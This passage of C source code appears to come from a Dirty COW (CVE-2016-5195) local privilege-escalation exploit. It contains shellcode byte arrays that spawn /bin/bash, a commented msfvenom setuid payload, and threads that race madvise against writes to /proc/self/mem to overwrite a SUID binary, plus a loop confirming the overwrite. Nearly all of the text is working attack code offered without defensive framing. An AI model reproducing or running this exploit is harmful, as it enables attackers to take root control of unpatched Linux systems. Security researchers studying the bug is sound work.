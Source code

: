   0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x53, 0x48,
  0x89, 0xe7, 0x68, 0x2d, 0x63, 0x00, 0x00, 0x48, 0x89, 0xe6, 0x52, 0xe8,
  0x0a, 0x00, 0x00, 0x00, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x62, 0x61, 0x73,
  0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05
};
unsigned int sc_len = 177;

/*
* $ msfvenom -p linux/x86/exec CMD=/bin/bash PrependSetuid=True -f elf | xxd -i
unsigned char sc[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x01, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x03, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x54, 0x80, 0x04, 0x08, 0x34, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x34, 0x00, 0x20, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x80, 0x04, 0x08, 0x00, 0x80, 0x04, 0x08, 0x88, 0x00, 0x00, 0x00,
  0xbc, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00,
  0x31, 0xdb, 0x6a, 0x17, 0x58, 0xcd, 0x80, 0x6a, 0x0b, 0x58, 0x99, 0x52,
  0x66, 0x68, 0x2d, 0x63, 0x89, 0xe7, 0x68, 0x2f, 0x73, 0x68, 0x00, 0x68,
  0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x52, 0xe8, 0x0a, 0x00, 0x00, 0x00,
  0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x62, 0x61, 0x73, 0x68, 0x00, 0x57, 0x53,
  0x89, 0xe1, 0xcd, 0x80
};
unsigned int sc_len = 136;
*/

void *madviseThread(void *arg)
{
  char *str;
  str=(char*)arg;
  int i,c=0;
  for(i=0;i<1000000 && !stop;i++) {
    c+=madvise(map,100,MADV_DONTNEED);
  }
  printf("thread stopped\n");
}

void *procselfmemThread(void *arg)
{
  char *str;
  str=(char*)arg;
  int f=open("/proc/self/mem",O_RDWR);
  int i,c=0;
  for(i=0;i<1000000 && !stop;i++) {
    lseek(f,map,SEEK_SET);
    c+=write(f, str, sc_len);
  }
  printf("thread stopped\n");
}

void *waitForWrite(void *arg) {
  char buf[sc_len];

  for(;;) {
    FILE *fp = fopen(suid_binary, "rb");

    fread(buf, sc_len, 1, fp);

    if(memcmp(buf, sc, sc_len) == 0) {
      printf("%s is overwritten\n", suid_binary);
      break;
    }

    fclose(fp);
    sleep(1);
  }

  stop = 1;